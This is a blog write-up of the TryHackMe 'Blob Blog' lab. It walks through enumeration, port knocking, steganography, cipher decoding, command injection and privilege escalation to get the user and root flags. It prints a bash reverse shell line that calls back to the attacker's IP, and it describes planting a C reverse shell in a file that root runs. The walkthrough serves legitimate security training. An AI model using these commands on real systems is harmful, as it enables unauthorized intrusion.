 ```yaml
---
layout: post
title: Tryhackme - The Blob Blog
date: 2020-12-25 19:00:00 +0000
category: [Tryhackme, Medium]
tags: [thm,linux,medium,reversing,reverse-shell,gtfobins]
---
```


---
<p>The Blob Blog is a medium level Tryhackme room. This rooms requires a little out-of-box thinking and some reversing skills. The final objective is to get the user and root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/theblobblog/1.png)

**Author** | bobloblaw
**Description** | Successfully hack into bobloblaw's computer.

Deploy the VM and let's go.

## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/theblobblog/nmap_scan1.png)
<br>
From the first nmap scan, there are only two ports open: ```22/ssh``` and ```80/http```. I checked the ```http``` service first and found the apache2 page.
<br>
![apache_homepage](/assets/img/tryhackme/theblobblog/2.png)
<br>

In the source page  I found two comments, one is a base64 encoded string and the second one seemed to be some sort of message.

I decoded the first comment in the following way:  ```base64``` using ```cyberchef``` > ```brainf@@k``` using ```dcode```. After decoding I got this message.
<br>
![dcode_first_comment](/assets/img/tryhackme/theblobblog/5.png)
<br>


## <ins>Port knocking</ins>
---
I spent some time figuring out the hint in the message and finally came to a conclusion that it is ```port knocking```.

In case you don't know what ```port knocking``` is, here is the explanation:

**Port knocking:** Port knocking is a stealth method to externally open ports that, by default, the firewall keeps closed. It works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection.

source: [https://wiki.archlinux.org/index.php/Port_knocking](https://wiki.archlinux.org/index.php/Port_knocking)

And from the decoded message the combination is ```1,3,5```. I used nmap to make a connection with the specified ports
<br>
<pre>nmap ip-addr -p 1,3,5</pre>
<br>

Do a nmap scan again on all ports and see if there are more ports open. If not, repeat the nmap scan again (Since I didn't get it in the first try).
<br>
![nmap_scan_2](/assets/img/tryhackme/theblobblog/nmap_scan2.png)


## <ins>FTP and HTTP</ins>
---
From the nmap scan I found that ```Anonymous``` login is not enabled in the ```ftp service```. The only password that came to my mind was the string in the second comment. I decoded the ```base58``` encoded string using ```cyberchef```.
<br>
![ftp_passwd](/assets/img/tryhackme/theblobblog/6.png)
<br>
I logged into the ftp server with the username ```bob``` and found an image file. Download it using the ```get file-name``` command.
<br>
![ftp_service](/assets/img/tryhackme/theblobblog/7.png)
<br>
I tried using ```steghide``` to extract the contents of the image file but it required a password to do so. Argghhh...need to find another password.

So, I checked the ```http``` service running in the port ```445``` and found this comments in the source page.
<br>
![image_passwd](/assets/img/tryhackme/theblobblog/8.png)
<br>
Now, use ```steghide``` to extract the contents of the image file.
<br>
![steghide_extract](/assets/img/tryhackme/theblobblog/9.png)
<br>
I checked the extracted text file and found two lines: first one didn't make any sense since I thought it was ```rot``` cipher as it was not and the second one is a directory name in the webpage. After going to the directory I found the key to decipher the first one.
<br>
![bob_dir](/assets/img/tryhackme/theblobblog/10.png)
<br>
The first line that we found on the text file can be decoded with ```vigenere cipher```.
<br>
![vigenere_decode](/assets/img/tryhackme/theblobblog/11.png)
<br>
I tried to log in to ssh using the above credentials but my effort was in vain. Then, I checked the final port ```8080``` . I used ```gobuster``` to brute force the hidden directories since there was no hint in the souce page.
<br>
![gobuster_8080](/assets/img/tryhackme/theblobblog/12.png)
<br>

## <ins>Reverse Shell</ins>
---
I logged in with the credentials that we just found. I checked every link that was given in the page but found nothing interesting. 
<br>
![login_page](/assets/img/tryhackme/theblobblog/13.png)
<br>
I tried some common strings and command in the input box and saw it being reflected in the review link. So, I grabbed the ```bash reverse shell``` and used it in the input box. At first, I thought that the reverse shell would pop-up after clicking the submit button but I was wrong. After submitting the reverse shell payload link on the review link to get the reverse shell. Remember to open a ```netcat``` listener.
<br>
<pre>bash -i >& /dev/tcp/your-vpn-ip/4444 0>&1</pre>
<br>
![reverse_shell](/assets/img/tryhackme/theblobblog/15.png)
<br>
At last!!! We got the shell.


## <ins>User flag</ins>
---
I used ```find``` command to list files with permissions.
<br>
<pre>find / -perm -4000 2>/dev/null</pre>
<br>
I found this particular file out of place. So, I tried executing it with arbitary inputs but had no luck with it.
<br>
![find_output](/assets/img/tryhackme/theblobblog/16.png)
<br>
I transferred the file to my local machine and tried using ```Ghidra``` to reverse engineer it.
<br>
![ghidra_prog](/assets/img/tryhackme/theblobblog/17.png)
<br>
From the main function I understood that it requires ```6 arguments``` and it checks for the condition ```7 - whatever input parameter``` given and loops over the input parameters. So, I tried using all six patameters with the value of 6.
<br>
![blog_elf](/assets/img/tryhackme/theblobblog/20.png)
<br>
After some trial and error, I arrived at ```6 5 4 3 2 1```. Use ```python pty``` to spawn a shell.
<br>
![blog_crack](/assets/img/tryhackme/theblobblog/21.png)
<br>
![user_flag](/assets/img/tryhackme/theblobblog/22.png)
<br>
Voila!! We got the user flag. Without further ado, let's move to getting root.


## <ins>Root flag</ins>
---
I checked for hints in the image files that was with the user flag but found nothing useful. So, I used ```sudo -l``` and found two binaries that can be run as root. 
<br>
<pre>(root) NOPASSWD: /bin/echo, /usr/bin/yes</pre>
<br>

After searching through ```gtfobins``` for commands I found nothing.
Hmmm....back to square one.

Like every 30 seconds or a minute this message stating that "You haven't rooted me yet? Jezz" would be displayed. I thought it would be running as a ```cronjob``` but there was no binary mentioned in the ```/etc/crontab``` file that displayed this message. So, I searched through some directories and finally found file displaying the message in the ```/Documents``` directory.
<br>
![boring_file](/assets/img/tryhackme/theblobblog/23.png)
<br>
![content_boring_file](/assets/img/tryhackme/theblobblog/24.png)
We can use this to get the reverse shell. First, to be able to edit the text file we need the use ```stty```.
<br>
<pre>
ctrl+z
stty raw -echo;fg
reset
xterm-256color
export TERM=xterm-256color
</pre>
<br>

I grabbed the ```c reverse shell``` which can be found [here](https://gist.github.com/0xabe-io/916cf3af33d1c0592a90) and edited the ```remote addr``` and ```remote port```. Remember to open a netcat listener.

Wait for a few seconds for the reverse shell.

The root flag will be waiting for you in ```/root/root.txt``` file.


That's it folks. Happy hacking!!!
